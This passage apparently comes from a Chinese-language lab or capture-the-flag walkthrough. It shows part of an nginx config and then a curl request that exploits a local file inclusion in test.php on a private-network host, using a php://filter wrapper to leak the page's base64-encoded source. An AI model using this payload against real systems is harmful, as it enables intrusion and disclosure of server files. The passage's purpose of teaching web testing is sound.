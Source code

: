 ```shell
        fastcgi_intercept_errors on;
        ##
        # Gzip Settings
        ##

        gzip on;

        # gzip_vary on;
        # gzip_proxied any;
        # gzip_comp_level 6;
        # gzip_buffers 16 8k;
        # gzip_http_version 1.1;
        # gzip_types text/plain text/css application/json application/javascript text/xml application/xml application/xml+rss text/javascript;

        ##
        # Virtual Host Configs
        ##

        include /etc/nginx/conf.d/*.conf;
        include /etc/nginx/sites-enabled/*;
}


#mail {
#       # See sample authentication script at:
#       # http://wiki.nginx.org/ImapAuthenticateWithApachePhpScript
#
#       # auth_http localhost/auth.php;
#       # pop3_capabilities "TOP" "USER";
#       # imap_capabilities "IMAP4rev1" "UIDPLUS";
#
#       server {
#               listen     localhost:110;
#               protocol   pop3;
#               proxy      on;
#       }
#
#       server {
#               listen     localhost:143;
#               protocol   imap;
#               proxy      on;
#       }
#}

```


有一个日志文件路径，但是尝试读取，未果


尝试读取文件源码
```shell
curl "http://192.168.124.22/test.php?do=php://filter/convert.base64-encode/resource=test.php"
<h1>test</h1>
tryPGgxPnRlc3Q8L2gxPgo8P3BocAogICAgaWYoaXNzZXQoJF9HRVRbJ2RvJ10pKQogICAgewogICAgICAgIGVjaG8gJ3RyeSc7CiAgICAgICAgaWYoJF9HRVRbJ2RvJ10gPT09ICJpbmRleC5waHAiKSB7CiAgICAgICAgICAgICAgICBkaWUoJ0VSUk9SJyk7CiAgICAgICAgfSBlbHNlIHsKICAgICAgICAgICAgICAgIGluY2x1ZGUgJF9HRVRbJ2RvJ107CiAgICAgICAgfQogICAgfQo/Pgo=%
```
